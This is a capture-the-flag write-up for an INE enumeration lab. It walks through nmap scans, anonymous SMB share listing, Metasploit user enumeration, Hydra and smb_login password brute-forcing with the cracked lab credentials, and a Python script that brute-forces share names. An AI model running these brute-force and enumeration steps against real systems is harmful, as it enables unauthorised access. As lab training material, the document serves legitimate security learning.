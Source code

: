 ## Assessment Methodologies: Enumeration CTF 1

### Flag 1: There is a samba share that allows anonymous access. Wonder what's in there!

We proceed with an assessment for the target using nmap
```
nmap -Pn -sS -sV -F target.ine.local
```
The only ports open are:
```
22 - OpenSSH 8.2p1
139 - Samba 4.6.2
445 - Samba 4.6.2
```
Following the hints, we concentrate on port 445:
```
nmap -Pn -sS -sV -p 445 --script=smb-* target.ine.local
```
However nothing interesting emerges from this scan

Next we try an anonymous login, but no useful data is found, as the only shares detectable are
```
print$
IPC$
```
We use the command:
```
smbclient -L target.ine.local -N
```
to list all available shares.

Even connecting to IP$ is of no use, while print$ is not accessible.
```
smbclient \\\\target.ine.local\\IPC$\\ -U anonymous
```
Thenl, we try using Metasploit modules:
```
smb_enumusers
smb_enumshares
```
While the second reveals only the information we already know, the first one reveals four users name:
```
josh
nancy
bob
alice
```
We attempt a brute-force attack against those users using the Metasploit module smb_login:

Using /usr/share/wordlists/metasploit/unix_passwords.txt as a password list, we find:
```
josh -> purple
```
While we do not find the share we need, we attempt to brute-force folder name using a list located on desktop and provided by the machine.
```
smbclient -U '' //target.ine.local/pubfiles
```
After several attempts, we find the pubfiles directory containing the first flag.


### Flag 2: One of the samba users have a bad password. Their private share with the same name as their username is at risk!

While we are unable to see a complete list of the shares, we assume that the share for the user josh has the same name:
```
smbclient \\\\target.ine.local\\josh -U josh
```
In this location, we find the second flag.

### Flag 3: Follow the hint given in the previous flag to uncover this one.

The previous flag suggests that there is an FTP service running on the target machine, but no such a service is found on port 21.

We try to scan the entire port range with nmap searching for an FTP service.
We find something in running on port 5554:
```
nmap -Pn -sS -p- target.ine.local
```
Further investigation:
```
nmap -Pn -sS -p 5554 -sV -sC target.ine.local 
```
reveals that an FTP service is running on port 5554.
```
ftp -P 5554 target.ine.local
```
This command prints a banner:
```
220 Welcome to blah FTP service. Reminder to users, specifically ashley, alice and amanda to change their weak passwords immediately!!!
```
We identify three users for brute-forcing access to the service:
```
ashley
alice
amanda
```
Using Hydra:
```
hydra -l alice -P /root/Desktop/wordlists/unix_passwords.txt ftp://target.ine.local:5554
```
alice has the weakest password, “pretty”
```
ftp -P 5554 target.ine.local
```
We log into FTP service with this username and password to recover the third flag.


### Flag 4: This is a warning meant to deter unauthorized users from logging in.

The last known service on the machine is SSH.
After attempting to access it with the root user, the service prints a warning banner containing the final flag.


### Alternative to discover Flag 1

We have to write Python code (or a bash script) to automate the process of brute forcing using the list in Desktop subfolder.
```
import subprocess

# Path to the file containing the list of shares
file_path = "shares.txt"

# Open the file and iterate through each line
try:
    with open(file_path, 'r') as file:
        for line in file:
            share = line.strip()  # Remove any leading/trailing whitespace
            
            if share:  # Skip empty lines
                # Construct the smbclient command
                command = (f"smbclient //target.ine.local/{share} -N -c \"ls\"")
                
                print(f"Executing: {command}")
                
                # Run the command
                result = subprocess.run(command, shell=True, capture_output=True, text=True)
                
                # Print the output or errors
                if result.returncode == 0:
                    print(f"Output for share {share}:\n{result.stdout}")
                else:
                    print(f"Error for share {share}:\n{result.stderr}")

except Exception as e:
    print(f"An error occurred: {e}")
```
